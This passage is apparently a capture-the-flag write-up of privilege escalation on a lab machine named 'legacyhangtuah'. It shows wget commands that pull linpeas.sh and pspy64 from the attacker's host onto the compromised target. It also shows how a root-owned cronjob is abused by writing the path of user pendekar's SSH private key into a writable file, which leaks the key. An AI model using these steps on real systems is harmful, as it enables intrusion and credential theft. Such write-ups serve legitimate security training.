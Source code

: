 But it does not seem to be helpful, then I decided to use some tools to enumerate the server. When I download the `linpeas.sh` and `pspy64` from their GitHub repositories, and I start an `HTTP` server with Python:
```shell
$ python -m http.server 8000
```
And I download the `linpeas.sh` file on the target server:
```shell
www-data@legacyhangtuah:/tmp$ wget 192.168.2.6:8000/linpeas.sh
```
And I download the `pspy64` file on the target server:
```shell
www-data@legacyhangtuah:/tmp$ wget 192.168.2.6:8000/pspy64
```
And I run the `linpeas.sh` file in the background:
```
www-data@legacyhangtuah:/tmp$ ./linpeas.sh &
...
╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/opt/pendekar/official_letter.txt
...
```
Then I can see that something is modifying the file, and maybe it is a cronjob. When I run the `pspy64` file in the background:
```shell
$ www-data@legacyhangtuah:/tmp$ ./pspy64 &
```
Then I can see that the user `1001` is running multiple commands. and it is because there is a cronjob:

![evidence](./static/12-pspy.png)

And user `1001` is `pendekar`, and I examine the file `/opt/pendekar/official_letter.txt`, and I notice that it changes frequently, and as well as the file `/home/pendekar/send_letter.txt`, and by the context of the `gold` provided above I guess if `send_letter.txt` stores the data of another file, and this data is inside the `official_letter.txt` file,and I have written permission on the `official_letter.txt` file, and I try to change the path with the path of the OpenSSH private key:
```shell
www-data@legacyhangtuah:/opt/pendekar$ echo \
> "/home/pendekar/.ssh/id_rsa" > official_letter.txt
```
And I start to print the content of the file `send_letter.txt`,then I get the private key
